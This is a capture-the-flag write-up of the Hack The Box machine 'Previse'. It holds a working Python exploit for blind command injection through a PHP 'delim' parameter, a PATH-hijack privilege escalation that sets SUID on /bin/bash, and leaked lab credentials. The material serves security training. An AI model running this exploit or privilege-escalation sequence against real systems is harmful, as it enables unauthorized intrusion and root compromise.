 ![](previse_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.11.104 previse.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Found bunch of php file from gobuster scan
```bash
/logout.php           (Status: 302) [Size: 0] [--> login.php]                 
/login.php            (Status: 200) [Size: 2224]                              
/download.php         (Status: 302) [Size: 0] [--> login.php]                 
/files.php            (Status: 302) [Size: 4914] [--> login.php]              
/logs.php             (Status: 302) [Size: 0] [--> login.php]                 
/config.php           (Status: 200) [Size: 0]                                 
/index.php            (Status: 302) [Size: 2801] [--> login.php]              
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]              
/nav.php              (Status: 200) [Size: 1248]                              
/status.php           (Status: 302) [Size: 2968] [--> login.php]
```

bunch of php files and most of them are redirecting to `login.php` but all redirect sizes are different. If we intercept these redirect requests we can see these file content. ***New Thing:** This is a EAR(Execution After Redirect) vulnerability **(owasp docs)[https://owasp.org/www-community/attacks/Execution_After_Redirect_(EAR)]***

And there's also a zip file.

![](screenshots/files-php.png)

We can create new account from `/accounts.php` with POST request.

![](screenshots/account-create.png)

And now we can download that `siteBackup.zip`.

Zip file contains source code of the web application.

# Foothold

## Blind Command Injection

* From `config.php` got mysql creds `root:mySQL_p@ssw0rd!:)`.
* `logs.php` has a command injection bug in line 19-20

  ![](screenshots/log-source.png)

  User input from `/logs.php` POST request parameter `delim` directly placced in the `exec()`.

`/logs.php` file executing python script and takes input from `delim` parameter, and it is vulnerable form blind command injection.

![](screenshots/blind-ci.png)

**Exploit Script**
```py
import sys
import requests as r

url = 'http://10.10.11.104'

try:
    def signup():
        location = f'{url}/accounts.php'
        data = {'username': 'poorduck', 'password': 'p00rduck', 'confirm': 'p00rduck'}
        create_ac = r.post(location, data=data, allow_redirects=False)
        if 'Success! User was added!' in create_ac.text:
            return '[+] Account is created'
        elif 'Username is already taken!' in create_ac.text:
            return '[+] User already exits'
        else:
            return create_ac.text


    print(signup())
    s = r.session()
    data = {'username': 'poorduck', 'password': 'p00rduck'}
    s.post(f'{url}/login.php', data=data)


    def exec_cmd(cmd):
        location = f'{url}/logs.php'
        data = {'delim': f'`{cmd}`'}
        execute = s.post(location, data=data, timeout=10)
        if 'time,user,fileID' in execute.text:
            return '[+] Command Executed. This is a blind command injection!'
        else:
            return execute.text


    print(exec_cmd(sys.argv[1]))
    s.close()
except r.exceptions.Timeout:
    print('\n[-] Response timeout!')
except KeyboardInterrupt:
    print('\n[-] Exiting execution!')
```

# Privesc

## Absolute Path Injection

Logged in to sql server with found creds and got user `m4lwhere` password hash, cracked with john and su to user `m4lwhere` with that password.

![](screenshots/john-the-hash.png)
<!--m4lwhere:ilovecody112235!-->

User `m4lwhere` can run a python script with sudo as root.
```bash
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Script is using `date` and `gzip` command without specifying full path and there is no secure path set in sudo.

![](screenshots/date-path-miss.png)

Using path injection to exploit that script
```
echo 'chmod +s /bin/bash' > /tmp/date && chmod +x /tmp/date
export PATH=/tmp:$PATH
sudo -u root /opt/scripts/access_backup.sh
```

![](screenshots/rooted.png)